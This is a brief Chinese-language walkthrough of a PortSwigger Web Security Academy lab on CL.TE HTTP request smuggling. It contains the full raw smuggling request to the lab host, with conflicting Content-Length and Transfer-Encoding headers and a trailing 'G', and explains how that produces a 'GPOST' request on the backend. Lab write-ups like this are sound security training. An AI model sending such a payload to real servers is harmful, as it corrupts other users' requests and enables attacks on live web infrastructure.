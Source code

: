 [Lab: HTTP request smuggling, basic CL.TE vulnerability | Web Security Academy](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te)

```http
POST / HTTP/1.1
Host: 0a06004a04f030268100930e007c0030.web-security-academy.net
Cookie: session=6B1Xqes6zlDk5ahjScwLg9qOnnW8rkzX
Cache-Control: max-age=0
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138", "Google Chrome";v="138"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a06004a04f030268100930e007c0030.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-US,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-CN;q=0.6
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G


```

构造出来了这个 GPOST 请求

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1753354072378-3aa56f9d-6ead-48e0-8aa5-c67507fffd99.png)

最后攻击效果

<font style="color:rgb(31, 35, 40);">发送第二个正常请求时：</font>

```plain
第一个请求剩余: G
第二个请求开始: POST /...
```

<font style="color:rgb(31, 35, 40);">后端服务器会将它们拼接成：</font>

```plain
GPOST /...
```

所以服务会报错



## 参考文章
[What is HTTP request smuggling? Tutorial & Examples | Web Security Academy](https://portswigger.net/web-security/request-smuggling)

[HTTP Request Smuggling（HTTP 请求走私）实践1.0](https://sanshiok.com/archive/12.html)

